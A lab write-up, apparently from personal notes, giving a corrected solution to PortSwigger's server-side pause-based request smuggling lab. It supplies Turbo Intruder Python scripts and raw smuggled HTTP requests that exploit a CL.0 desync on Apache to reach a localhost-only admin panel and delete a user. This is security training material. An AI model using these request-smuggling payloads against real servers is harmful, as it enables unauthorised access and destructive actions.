 #### 22. [Server-side pause-based request smuggling](https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync/lab-server-side-pause-based-request-smuggling)<span class="purple">Expert</span>
#buggedsolution 

The Web security Academy's solution has a bug, the payload in `identify a desync vector` section returns a `duplicate header` error, I fixed it and here is the correct solution:
##### Solutions:
###### Solution:
**Identify a desync vector**

1. In Burp, notice from the `Server` response header that the lab is using `Apache 2.4.52`. This version of Apache is potentially vulnerable to pause-based CL.0 attacks on endpoints that trigger server-level redirects.
2. In Burp Repeater, try issuing a request for a valid directory without including a trailing slash, for example, `GET /resources`. Observe that you are redirected to `/resources/`.
3. Right-click the request and select **Extensions > Turbo Intruder > Send to Turbo Intruder**.
4. In Turbo Intruder, convert the request to a `POST` request (right-click and select **Change request method**).
5. Change the `Connection` header to `keep-alive`.
6. Add a complete `GET /admin` request to the body of the main request. The result should look something like this:

```http
POST /resources HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /admin/ HTTP/1.1
Foo: x
```

7. In the Python editor panel, enter the following script. This issues the request twice, pausing for 61 seconds after the `\r\n\r\n` sequence at the end of the headers:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    
    followUp = 'GET / HTTP/1.1\r\nHost: YOUR-LAB-ID.web-security-academy.net\r\n\r\n'
    engine.queue(followUp)

def handleResponse(req, interesting):
    table.add(req)
```

8. Launch the attack. Initially, you won't see anything happening, but after 61 seconds, you should see two entries in the results table:

    - The first entry is the `POST /resources` request, which triggered a redirect to `/resources/` as normal.
    - The second entry is a response to the `GET /admin/` request. Although this just tells you that the admin panel is only accessible to local users, this confirms the pause-based CL.0 vulnerability.


**Exploit**

1. In Turbo Intruder, go back to the attack configuration screen. In your follow-up request, change the `Host` header to `localhost` and relaunch the attack.
2. After 61 seconds, notice that you have now successfully accessed the admin panel.
3. Study the response and observe that the admin panel contains an HTML form for deleting a given user. Make a note of the following details:

    - The action attribute (`/admin/delete`).
    - The name of the input (`username`).
    - The `csrf` token.

4. Go back to the attack configuration screen. Use these details to replicate the request that would be issued when submitting the form. The result should look something like this:

```http
POST /resources HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: CORRECT

csrf=YOUR-CSRF-TOKEN&username=carlos
```

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```


5. To prevent Turbo Intruder from pausing after both occurrences of `\r\n\r\n` in the request, update the `pauseMarker` argument so that it only matches the end of the first set of headers, for example:

```python
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```

6. Launch the attack.
7. After 61 seconds, the lab is solved.

As an alternative solution, you can also use a request like this in Turbo Intruder:

```http
POST /login HTTP/1.1
Host: 0ae7004503de053c8079a47600e60037.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 139

GET /admin/delete?username=carlos&csrf=C9Ol0Xa9cfulPcdOcBEIGyr0UbHMRs00 HTTP/1.1
Cookie: session=nXu1hrcaPd2mFuOTvWHxgLwL0WOGlX8f
Foo: x
```

and the following python code in the editor of Turbo Intruder:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    
    followUp = 'GET / HTTP/1.1\r\nHost: localhost\r\n\r\n'
    engine.queue(followUp)
    


def handleResponse(req, interesting):
    table.add(req)
```